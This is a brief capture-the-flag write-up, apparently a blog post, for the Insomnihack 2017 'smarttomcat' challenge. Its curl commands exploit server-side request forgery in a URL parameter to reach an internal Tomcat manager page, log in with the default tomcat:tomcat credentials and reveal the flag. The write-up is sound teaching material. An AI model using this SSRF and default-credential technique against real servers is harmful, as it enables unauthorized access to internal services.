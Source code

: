 ```yaml
---
layout: post
title:  "Write UP Insomnihack smarttomcat!"
date:   2017-01-23 16:50:00 +0100
categories: jekyll update
---
```


For this chall we were provided this internet page:
![smarttomcat]({{ site.url }}/assets/insomnihack/smarttomcat.png)

When we try to enter some coordinates, we can see that it's doing a *POST* request on *index.php* with *u="http://localhost:8080/index.jsp?x=32&y=23"* as parameter.

We then try to do the request with curl:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/index.jsp?x=3&y=4"`

and we are rewarded a 

`Tomcat not found ! Try again`

So we try to change the url for the *u* paramter:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/lol"`

`Apache Tomcat/7.0.68 (Ubuntu) - Error report : NOT FOUND`

Now that we know it's an Apache Tomcat, we can search for special files like manager/html:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://localhost:8080/manager/html"`

Answer:

`This request requires HTTP authentication.`


So we try to authenticate with default username and password:

`curl -X POST  'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://tomcat:tomcat@localhos
t:8080/manager/html"`

Answer:

`We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}`

Here we have the flag !
